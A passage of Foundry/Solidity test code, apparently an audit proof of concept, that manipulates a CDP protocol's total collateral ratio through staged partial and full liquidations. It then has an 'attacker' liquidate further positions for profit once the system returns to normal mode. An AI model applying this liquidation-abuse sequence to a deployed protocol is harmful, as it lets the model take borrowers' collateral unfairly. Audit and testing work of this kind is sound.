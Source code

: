 ```solidity
            console.log("TCR: ", TCR);

            isAvailableToLiq = _checkAvailableToLiq(cdpIds[2], price);
            console.log("Is available to liquidate CDP_123ICR? ", isAvailableToLiq);

            if (isAvailableToLiq) {
                console.log("- Liquidate CDP_123ICR fully");
                vm.prank(user);
                cdpManager.liquidate(cdpIds[2]);

                TCR = cdpManager.getCachedTCR(price);
                console.log("TCR after LiqCDP_123ICR: ", TCR);
            }

            console.log("\n");
            console.log("- Liquidate CDP_110ICR partially: TCR -> 124%");
            icr0 = cdpManager.getSyncedICR(cdpIds[0], price);
            targetICR = cdpManager.getSyncedICR(cdpIds[3], price);
            deltaDebt = _calcDebtForDesiredTCRWithLastCDP(targetICR, activePool.getSystemCollShares(), activePool.getSystemDebt(), price, icr0);
            console.log("deltaDebt: ", deltaDebt);
            vm.prank(user);
            cdpManager.partiallyLiquidate(cdpIds[0], deltaDebt, cdpIds[0], cdpIds[0]);

            TCR = cdpManager.getCachedTCR(price);
            console.log("TCR: ", TCR);

            isAvailableToLiq = _checkAvailableToLiq(cdpIds[3], price);
            console.log("Is available to liquidate CDP_124ICR? ", isAvailableToLiq);

            if (isAvailableToLiq) {
                console.log("- Liquidate CDP_124ICR fully");
                vm.prank(user);
                cdpManager.liquidate(cdpIds[3]);

                TCR = cdpManager.getCachedTCR(price);
                console.log("TCR after LiqCDP_124ICR: ", TCR);

                console.log("There is no CDP (TCR <= ICR < CCR)");
            }

            console.log("-- Now the attacker will liquidate some CDPs (ICR <= TCR) < CCR to earn more money --");
            icr0 = cdpManager.getSyncedICR(cdpIds[0], price);
            console.log("CDP_110ICR = ", icr0);
            console.log("- Liquidate CDP_110ICR fully");
            vm.prank(user);
            cdpManager.liquidate(cdpIds[0]);

            TCR = cdpManager.getCachedTCR(price);
            console.log("TCR after LiqCDP_110ICR fully: ", TCR);
            console.log("!!!System is in NormalMode liquidating 4 CDPs including the first CDP!!!");

            console.log("\n");

            console.log("Is CDP_110ICR liquidated? ", !sortedCdps.contains(cdpIds[0]));
            console.log("Is CDP_122ICR liquidated? ", !sortedCdps.contains(cdpIds[1]));
            console.log("Is CDP_123ICR liquidated? ", !sortedCdps.contains(cdpIds[2]));
            console.log("Is CDP_124ICR liquidated? ", !sortedCdps.contains(cdpIds[3]));
            console.log("Is CDP_133ICR liquidated? ", !sortedCdps.contains(cdpIds[4]));

            console.log("CDP size: ", sortedCdps.getSize());
```